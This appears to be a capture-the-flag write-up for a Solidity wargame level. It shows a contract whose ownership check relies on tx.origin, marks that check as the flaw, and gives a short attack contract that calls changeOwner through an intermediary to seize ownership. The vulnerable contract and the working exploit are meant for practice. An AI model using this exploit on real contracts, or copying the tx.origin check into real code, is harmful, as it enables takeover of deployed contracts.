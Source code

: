 ### Goal

Claim ownership.

### Source Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Vulnerable Parts

```solidity
function changeOwner(address _owner) public {
	// Contracts can pretend to be owner.
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

### Attack!

```solidity
contract AttackTelephone {
    address telephoneAddress;
    address me;

    constructor(address _telephoneAddress) public {
        me = msg.sender;
        telephoneAddress = _telephoneAddress;
    }

    function attackTelephone() public {
        Telephone telephone = Telephone(telephoneAddress);
        telephone.changeOwner(me);
    }
}
```
